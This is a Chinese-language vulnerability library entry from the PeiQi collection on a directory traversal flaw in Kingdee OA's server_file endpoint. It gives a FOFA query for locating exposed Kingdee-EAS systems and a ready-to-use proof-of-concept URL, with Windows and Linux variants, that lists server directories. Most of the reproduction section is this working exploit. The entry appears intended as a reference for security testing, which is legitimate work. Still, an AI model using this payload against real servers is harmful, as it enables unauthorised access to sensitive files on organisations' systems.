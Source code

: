 ```yaml
---
title: 金蝶OA server_file 目录遍历漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 金蝶OA
---
```


# 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

> [!NOTE]
>
> 金蝶OA

## FOFA

> [!NOTE]
>
> app="Kingdee-EAS"

## 漏洞复现

登录界面为

![image-20210603132948792](/img/20210924020224211112.png)

漏洞POC

```
/appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![image-20210603133022065](C:/Users/peiqi/AppData/Roaming/Typora/typora-user-images/image-20210603133022065.png)

```
Windows服务器

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![image-20210603133136331](/img/20210924020224517024.png)

